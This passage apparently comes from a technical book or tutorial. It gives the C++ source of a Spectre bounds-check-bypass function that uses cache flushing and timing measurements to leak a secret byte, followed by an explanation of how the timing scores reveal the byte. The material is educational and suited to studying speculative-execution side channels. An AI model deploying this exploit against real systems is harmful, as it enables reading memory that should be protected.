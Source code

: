 \hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

For each element of the timing array, we will compute a score, which is the number of times this element was the fastest one to access. We also track the second-fastest element, which should be just one of the regular, slow to access, array elements. We keep doing it for many iterations: ideally, until we get the result, but, in practice, we have to give up at some point.

Once a large enough gap opens between the best score and the second-best score, we know that we have reliably detected the fast element of the timing array, which is the one indexed by the value of the secret byte (if we reach the maximum number of iterations without getting a reliable answer, the attack has failed, although we can try to use the best guess we have so far).

